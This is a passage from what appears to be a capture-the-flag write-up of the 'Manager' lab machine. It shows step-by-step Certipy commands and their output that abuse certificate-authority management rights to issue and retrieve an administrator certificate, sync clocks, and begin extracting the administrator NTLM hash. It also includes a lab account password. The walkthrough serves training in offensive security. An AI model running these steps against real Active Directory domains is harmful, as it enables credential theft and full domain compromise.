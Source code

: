 This fails, but it saves the private key involved. Then, using the Manage CA and Manage Certificates privileges, I’ll use the `ca` subcommand to issue the request:

```

oxdf@hacky$ certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                    
[*] Successfully issued certificate

```

Now, the issued certificate can be retrieved using the `req` command:

```

oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)    
                                                                    
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'

```

#### Administrator NTLM

With this certificate as the administrator user, the easiest way to get a shell is to use it to get the NTLM hash for the user with the `auth` command. This requires the VM and target times to be in sync, with otherwise leads to this failure:

```

oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                    
[-] Got error: nameserver manager.htb is not an IP address or valid https URL
[-] Use -debug to print a stacktrace

```

I’ll use `ntpdate` to sync my VM’s time to Manager’s:

```

oxdf@hacky$ sudo ntpdate 10.10.11.236
13 Mar 17:17:40 ntpdate[252490]: step time server 10.10.11.236 offset +25191.022331 sec

```

Now it works, leaking the hash:
